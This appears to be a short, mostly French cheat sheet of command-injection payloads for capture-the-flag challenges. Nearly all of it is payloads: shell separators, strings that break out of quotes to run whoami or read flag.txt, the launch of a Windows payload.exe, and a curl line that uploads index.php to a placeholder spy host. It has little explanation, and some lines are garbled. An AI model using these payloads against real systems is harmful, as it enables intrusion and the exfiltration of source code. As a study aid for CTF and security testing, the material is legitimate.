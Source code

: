 # injection commands
System Command Execution Functions

The following are some of the functions that would so:

## CTF

ip=127.0.0.1%0acurl -F 'index=@./index.php' http://domaine.tld/spy.php

## append
;, &, &&, |, ||, 0x0a, \n

## binaire Windows 

 & ..\\..\\..\\..\\..\\..\Users\\C:\Users\Cortin\payload.exe
 
## exemple linux:

 code : child_process.exec("echo '" + input + "'")
injection : '; whoami; '

## commenter la fin:

'; whoami; #

## s'assurer que les quotes soit fermées:

child_process.exec("echo 'user: " + "';whoami; '" + "'")

## échaper les chars spéciaux:

child_process.exec("echo 'user: " + "'; echo \"test\"; '" + "'")

## parfois: encoder en url:

`# -> %23`

## exemple: 

code: 'ping -c 1 "' + ip + '"'
injection: ?ip=127.0.0.1";"
injection:?ip=127.0.0.1";%20cat%20flag.txt"
 


